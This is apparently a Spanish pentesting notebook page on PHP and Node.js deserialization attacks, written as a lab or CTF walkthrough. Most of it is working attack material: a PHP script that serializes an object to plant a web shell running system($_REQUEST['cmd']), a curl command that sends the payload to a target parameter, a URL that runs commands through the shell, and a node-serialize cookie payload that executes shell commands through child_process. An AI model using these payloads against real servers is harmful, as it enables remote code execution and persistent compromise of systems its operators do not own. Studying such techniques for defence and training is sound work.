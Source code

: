 ```yaml
---
icon: file-lock
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Serealizacion/Deserealizacion

## <mark style="color:purple;">Serializar en</mark> <mark style="color:purple;"></mark><mark style="color:purple;">`URL`</mark> <mark style="color:purple;"></mark><mark style="color:purple;">con</mark> <mark style="color:purple;"></mark><mark style="color:purple;">`PHP`</mark> <mark style="color:purple;"></mark><mark style="color:purple;">sabiendo el codigo</mark>

Si por ejemplo estamos en una maquina y nos muestran el codigo de algun `backup` de algun `.php` de alguna pagina, podremos ver el codigo de `php` por dentro por lo que estudiaremos como funciona y de ahi crearemos nosotros un `.php` para poder crear cosas dentro de la `URL` con los parametros que veamos o poder aprovechar la informacion para inyectar cosas...

Pero en este caso imaginamos que obtuvimos de una pagina un `.php` con su codigo y sabemos como funciona, vemos que se esta tramitando una peticion por parametro llamado `example=` en el archivo `test.php` y a lo ultimo se esta `serializando` la informacion en la `URL`, por lo que tendremos que crear un `.php` que nos genere el contenido de un parametro `cmd=`, craendo una archivo `.php` en el que podamos ejecutar cualquier comando de forma que nos lo serialice para que se lo trague la `URL` en este caso...

```php
<?php
class DatabaseExample
{
	public $user_file = 'payload.php';
	public $data = '<?php system($_REQUEST["cmd"]); ?>'
}

$exploit = new DatabaseExample;

echo serialize($exploit);

?>
```

Con este `.php` cuando lo ejecutemos...

```shell
php data.php; echo
```

Nos mostrara lo que tendremos que meter de forma serializada en el parametro que sabemos que esta creado llamado `example=` para crear un archivo llamado `payload.php` en la base de datos que sabemos que existe por el `backup` creando en ese archivo el parametro `cmd=` pudiendo ejecutar cualquier comando del sistema y por ultimo nos lo serializa para que funcione todo esto, aprovechando las variables publicas que ya estan creadas...

```shell
curl -s -X GET -G "http://<IP>/test.php" --data-urlencode 'example=<TEXT_SERIALIZE>'; echo
```

Esto lo que hara sera ejecutar lo que ya dije anteriormente desde la herramienta `curl`...

Ahora si nos vamos a la misma `URL` pero en vez de pone `test.php` ponemos nuestro archivo creado llamado `payload.php` y poniendo el parametro creado por ese archivo `cmd=` y un comando deberia de funcionar...

```
URL = http://<IP>/payload.php?cmd=whoami
```

URL = https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

Esto se puede aprovechar mirando el archivo `server.js` si estuviera disponible, una vez sabiendo esas informacion se puede aprovechar un `bug` con la `URL` anterior en la `Cookie de sesion` para ejecutar comandos de forma libre, ya que si se deserializa, se puede hacer lo siguiente...

```json
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Ajustandolo a tus necesidades, eso se podria `URL Encodear` y ponerlo en la `Cookie` para que cuando recargues la pagina se ejecute un comando en el espacio de `ls /`...

